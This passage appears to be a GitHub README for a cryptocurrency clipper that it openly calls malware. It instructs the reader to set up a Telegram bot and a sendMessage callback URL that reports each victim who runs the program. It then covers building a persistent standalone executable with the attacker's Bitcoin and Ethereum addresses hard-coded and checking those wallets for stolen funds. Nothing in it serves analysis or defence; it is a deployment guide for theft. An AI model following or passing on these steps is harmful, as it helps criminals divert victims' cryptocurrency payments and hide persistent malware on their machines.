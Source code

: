 ![img10](https://github.com/btc-stealer/crypto-clipper/assets/150532647/d1f01161-3f94-4161-a4ee-9292abf945f5)


And, finally, pick a user name (note this must be unique).

![img11](https://github.com/btc-stealer/crypto-clipper/assets/150532647/929c055a-0a2f-4349-8e41-acd1d0e1a2f1)


Then you need to get your unique Telegram id. Start this bot:

https://t.me/raw_data_bot

It will give you, your unique id.

![img12](https://github.com/btc-stealer/crypto-clipper/assets/150532647/ff77db37-6811-4719-bb62-f9d4ab8b64e6)

Start the bot that you created with BotFather.


You need to create a URL with the following format


https://api.telegram.org/bot[BOT_API_TOKEN]/sendMessage?chat_id=[YOUR_ID]


·  Replace [BOT_API_TOKEN] with the token generated by BotFather when you created your bot.

·  Replace [YOUR_ID] with your unique ID.


Finally, open the TLS folder and then open config.txt. Add your URL after the wallet addresses. (You must add your URL after generating your wallets and before building the malware.)

![img13](https://github.com/btc-stealer/crypto-clipper/assets/150532647/f2348d50-c601-4013-95f6-781d0d591e0e)

Then build the malware. As soon as a new user runs the malware, it will send you a message saying, "User <user's unique ID> ran the malware."


### 3)BUILD THE CRYPTO CLIPPER STANDALONE EXECUTABLE FILE

- Your generated Bitcoin and Ethereum addresses will be hard-coded into a new executable file called output.exe.

- The malware is self-contained and does not require any external dependencies to run, making it easy to distribute and execute.

- Even if the victim attempts to remove the malware or restart their system, the malware is designed to persist and continue running.

- Test the malware on a virtual machine.


![img4](https://github.com/btc-stealer/crypto-clipper/assets/150532647/7140a266-4b04-4855-9c40-4e354be08ad6)



### 4)MONITOR YOUR WALLETS

To check the balance of your Bitcoin addresses, I highly recommend using Electrum wallet. However, you are free to use any wallet of your choice. If you have a cryptocurrency wallet that supports multiple addresses, you can import all of your addresses and check their balances in one place. For example, the Exodus wallet supports both Bitcoin and Ethereum, and allows you to import multiple addresses.
